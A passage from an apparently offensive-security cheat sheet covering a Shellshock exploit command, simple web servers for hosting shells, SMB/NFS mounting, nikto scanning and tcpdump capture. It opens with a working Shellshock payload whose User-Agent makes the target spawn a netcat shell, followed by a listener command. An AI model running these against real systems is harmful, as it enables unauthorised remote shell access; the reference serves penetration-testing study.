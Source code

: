 echo -e "HEAD /cgi-bin/status HTTP/1.1\nUser-Agent: () { :;}; /usr/bin/nc -l -p 9999 -e /bin/sh\nHost: vulnerable\nConnection: close\n\n" | nc TARGET 80

##### **Shell Shock reverse Shell**

nc -l -p 443

## **Simple Local Web Servers**

Python local web server command, handy for serving up shells and exploits on an attacking machine.

| Command | Description |
| --- | --- |
| python -m SimpleHTTPServer 80 | Run a basic http server, great for serving up shells etc |
| python3 -m http.server | Run a basic Python3 http server, great for serving up shells etc |
| ruby -rwebrick -e "WEBrick::HTTPServer.new(:Port => 80, :DocumentRoot => Dir.pwd).start" | Run a ruby webrick basic http server |
| php -S 0.0.0.0:80 | Run a basic PHP http server |

## **Mounting File Shares**

How to mount NFS / CIFS, Windows and Linux file shares.

| Command | Description |
| --- | --- |
| mount 192.168.1.1:/vol/share /mnt/nfs | Mount NFS share to /mnt/nfs |
| mount -t cifs -o username=user,password=pass,domain=blah //192.168.1.X/share-name /mnt/cifs | Mount Windows CIFS / SMB share on Linux at /mnt/cifs if you remove password it will prompt on the CLI (more secure as it wont end up in bash_history) |
| net use Z: \\win-server\share password  /user:domain\janedoe /savecred /p:no | Mount a Windows share on Windows from the command line |
| apt-get install smb4k -y | Install smb4k on Kali, useful Linux GUI for browsing SMB shares |

## **HTTP / HTTPS Webserver Enumeration**

| Command | Description |
| --- | --- |
| nikto -h 192.168.1.1 | Perform a nikto scan against target |
| dirbuster | Configure via GUI, CLI input doesn't work most of the time |

## **Packet Inspection**

| Command | Description |
| --- | --- |
| tcpdump tcp port 80 -w output.pcap -i eth0 | tcpdump for port 80 on interface eth0, outputs to output.pcap |

## **Username Enumeration**
